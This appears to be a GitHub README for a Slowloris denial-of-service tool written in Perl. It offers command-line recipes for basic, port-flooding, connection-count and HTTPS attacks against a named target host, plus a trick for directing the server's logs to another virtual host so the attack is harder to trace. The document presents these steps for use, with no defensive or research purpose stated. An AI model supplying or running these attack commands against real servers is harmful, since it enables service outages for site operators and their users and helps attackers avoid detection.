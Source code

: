 # slowloris-ddos-attack-tool
I think everyone know what is Slowloris XD

Source From https://github.com/llaera

## How To Use Slowloris
### Basic Attack
Run slowloris on command line
```perl slowloris.pl -dns example.target.com```

### Port FLooding
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 80```

### Number of Port Attack
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 80 -num 500 ```

### HTTPS Attack
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https```

There is another build in trick you might want to know. If you know that the Server is running several virtual hosts you can send the log to an other vhost than you are attacking!

```./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com ```

